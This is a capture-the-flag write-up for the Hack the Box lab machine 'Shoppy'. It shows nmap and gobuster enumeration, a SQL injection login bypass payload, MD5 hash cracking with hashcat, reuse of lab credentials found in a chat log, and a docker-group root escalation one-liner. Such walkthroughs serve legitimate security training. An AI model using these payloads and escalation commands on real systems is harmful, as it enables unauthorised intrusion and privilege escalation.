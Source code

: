 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-1-14T11:00:00.000Z
publishDate = 2023-01-14T11:00:00.000Z
description = ""
draft = false
thumbnail = "/images/shoppy/logo.png"
slug = "hack-the-box-shoppy"
summary = ""
tags = ["hack the box", "Easy", "Linux", "Burpsuite", "gobuster", "SQL Injection", "container", "gtfobins", "hashcat"]
title = "Hack the Box - Shoppy"
url = "/hack-the-box-shoppy"
+++

Welcome back! Today we are going to be doing the Hack the Box machine - Shoppy. This machine is listed an as Easy machine. Let's start!

As usually, we start with an `nmap` scan. Here are the results:

```
Nmap scan report for 10.10.11.180
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:05 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|     go_gc_d
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:06 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|_    go_gc_d
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/30%Time=6336F5B2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Fri,\x2
SF:030\x20Sep\x202022\x2013:57:05\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x2018\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_duration_seconds\x20A\x2
SF:0summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collecti
SF:on\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_d
SF:uration_seconds{quantile=\"0\"}\x204\.2374e-05\ngo_gc_duration_seconds{
SF:quantile=\"0\.25\"}\x209\.0354e-05\ngo_gc_d")%r(HTTPOptions,152B,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2030\x20Sep\x202022\x2013:57:06\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x2018\n#\x20HEL
SF:P\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20du
SF:ration\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_d
SF:uration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x204
SF:\.2374e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x209\.0354e-05\n
SF:go_gc_d");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three ports - `22`, `80` and `9093`. We also see that we should probably add `shoppy.htb` to our hosts file. We'll start up `burpsuite` and see what's happening on port `80`. We get a landing page saying that the service is coming soon. Looks like we'll start enumerating with `gobuster` and or `ffuf`.

Command:
`gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right away we see `/login` and `/admin`.

![](/images/shoppy/shoppy1.png)

We head over to the login screen. We try to login with some basic's like `admin` | `admin` and the such but nothing. When we try to give it a basic `SQL Injection` we get a `504 timeout`. There could be something here. After a while of trying all sorts of injections on the field, we land on `admin' || '1=1-- -` letting us login!

![](/images/shoppy/shoppy2.png)

Now that we're in we can see we have access to a `search for users` function. What are the chances we can use the same 'Always true' statement that logged us in, in this field? Sure enough, it also works. We are given a link to 'Download export' The export only contains two users - `josh` and `admin`.

![](/images/shoppy/shoppy3.png)

These hashes look to be `MD5` at first glace. We can crack those pretty easy this day in age.

Command:
`hashcat -m 0 '6ebcea65320589ca4f2f1ce039975995' /usr/share/wordlists/rockyou.txt`

And we get back a match:
`6ebcea65320589ca4f2f1ce039975995:remembermethisway`

So now we have a password for `Josh`. We aren't able to use it for `SSH` so we must be missing something. During our enumeration processes we didn't try to enumerate any subdomains. There very well could be another site being hosted. We'll take a pass with `gobuster` to see if we can enumerate anything additional.

Command:
`gobuster vhost -u shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

That didn't turn up any results. We'll try again with a different lists and we end up finding `mattermost.shoppy.htb`. We'll add this to our hosts file and see what's being hosted.

![](/images/shoppy/shoppy4.png)

Sure enough, there is a login right as we load the page. We are able to login as `josh`. Once we get logged we can dig around and see what we can find. We find an interesting tidbit - 

'Hey @jaeger, when I was trying to install docker on the machine, I started learn C++ and I do a password manager. You can test it if you want, the program is on the deploy machine.'

We can take a look at the 'Deploy Machine' on the side links and see that we have some credentials to that machine given to us - `jaeger`:`Sh0ppyBest@pp!`. Now we can test these credentials against `SSH` to see if we are able to log into that container.

We are able to log into that container and the `user.txt` flag is waiting for us! Now that we're on the box, and we know it's a container, we'll need to seek a way to break out. Generally to do that we need a method to `root`. Let's start to enumerate. A quick `sudo -l` shows we can run `/home/deploy/password-manager` as the `Deploy` user. This was probably the tool that was noted in `mattermost`. So let's try to run the app.

We see we are expected to answer the 'Master Password'.
![](/images/shoppy/shoppy5.png)

We try a few basic passwords but nothing works. So we run `strings` on the file and see something but no password:
![Strings command](/images/shoppy/shoppy6.png)

Next we try `cat`:
![cat command](/images/shoppy/shoppy7.png)

This time we have a bit more insight, we see the password as `Sample`. We plug it into the app and gain some new credentials - `deploy`:`Deploying@pp!`.

![](/images/shoppy/shoppy8.png)

Let's `SSH` into this container using these credentials. Now we're in with another account, let's enumerate. We aren't able to run `sudo` as the `deploy` user. So we'll get a copy of `linpeas` on the container and see what we mightr be able to find. We start up our `SimpleHTTPServer` and user `wget` to download the `linpeas` script. Then we run it.

We see that one of the 95%  Escalation Vectors that pops up is that the user belongs to the `Docker` group. So we can check [hatrick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout) and [gtfo bins](https://gtfobins.github.io/gtfobins/docker/) for paths up. We will try the following:

Command:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

It works, we escalate to `root` in the container!

![Priv Esc works!](/images/shoppy/shoppy9.png)

We then `cat` the `root.txt` flag and box is completed!